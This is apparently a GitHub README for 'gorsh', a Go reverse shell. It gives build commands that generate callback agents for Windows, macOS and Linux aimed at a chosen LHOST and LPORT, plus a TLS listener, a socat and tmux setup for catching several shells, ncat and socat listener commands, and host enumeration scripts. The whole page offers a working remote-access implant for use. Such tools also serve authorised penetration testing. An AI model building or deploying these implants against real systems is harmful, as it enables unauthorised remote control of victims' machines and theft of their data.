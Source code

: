 # gorsh

[go]lang [r]everse [sh]ell

[![forthebadge](https://forthebadge.com/images/badges/fuck-it-ship-it.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/no-ragrets.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/contains-technical-debt.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/made-with-crayons.svg)](https://forthebadge.com)

![](https://i.imgur.com/x51XH6K.png)
[![asciicast](https://asciinema.org/a/NmeC42TNu8BgdjMLcyVUXo74x.svg)](https://asciinema.org/a/NmeC42TNu8BgdjMLcyVUXo74x)

Originally forked from - [sysdream/hershell](https://github.com/sysdream/hershell)

## Fork Changes

**Requires go1.11+**

See the [Changelog](./docs/CHANGELOG.md)

## Getting started

```bash
git clone git@github.com:audibleblink/gorsh.git
cd gorsh
go get -u github.com/gobuffalo/packr/packr
```

**Be sure to read the Makefile**. It gives you a good idea of what's going on.

Using the zstd build tag and windll make target require cgo.
Make sure you're familiar with cross-compilation and cgo and have the toolchains for it, or read
[here](./docs/TROUBLESHOOTING.md) if you're feeling adventurous.

### Usage

First, generate your certs and ssh keys for the reverse proxy.

```bash
$ make depends
```

Follow the make command's printed instructions on creating an ssh user for the reverse proxy connection.

**Create** `configs/ssh.json`. There's an example json file the `configs` directory.

Generate agents with:

```bash
# For the `make` targets, you only need the`LHOST`and`LPORT`environment variables.
$ make {windows,macos,linux}{32,64} LHOST=example.com LPORT=443
```

#### Enumeration Scripts

The `enum` command will present a selection dialog that allows once to run enumeration scripts based
on the host OS. You can update scripts in `scripts/prepare_enum_scripts.sh` and run 
`make enumscripts`. Addition of scripts will require modification of
`./internal/enum/enum_{windows,linux}.go`


#### Catching the shell

This project ships with a server that catches the reverse shell and still provides shell-like
capabilities you lose with traditional reverse shells, including:

* Tab Completion
* Vi-mode readline editing
* History
* Cursor movements

Generate the server with:

```sh
make server
build/srv/gorsh-listen --help
```

The gorsh-listener is a one-to-one relationship, like a traditional shell. For multiple shells, you
need to start multiple servers on different ports. 

To have the ability to receive multiple shells on the same port, there's the `make listen` target.
The `make listen` target kicks off a socat TLS pipe and creates new tmux windows with each new
incoming connection.  Feed it a port number as PORT. 
`socat` is essentially acting as a TLS-terminating reverse proxy. The incoming connections are then
handed off to gorsh-listener through randomly generated Unix Domain Sockets.

```sh
make listen PORT=8080

# once a client connects, on a different terminal type:
tmux attach -t GORSH
```

Shells can also be caught without tmux or gorsh-listen using:

* socat (not working on macos)
* ncat
* openssl server module
* metasploit multi handler (with a `python/shell_reverse_tcp_ssl` payload)

__Examples__

```bash
$ ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
$ socat stdio OPENSSL-LISTEN:443,cert=server.pem,key=server.key,verify=0
```

## Credits

* Initial Work - [@lesnuages](https://github.com/lesnuages)
* Modifications - f47h3r - [@f47h3r_b0](https://twitter.com/f47h3r_b0)
* [@mzpqnxow](https://github.com/mzpqnxow) for figuring out my x-compilation and dependancy problems and troubleshooting guide
* Enumeration scripts courtesy of [@411hall](https://twitter.com/411hall) [@harmj0y](https://twitter.com/harmj0y) [@rebootuser](https://twitter.com/rebootuser)
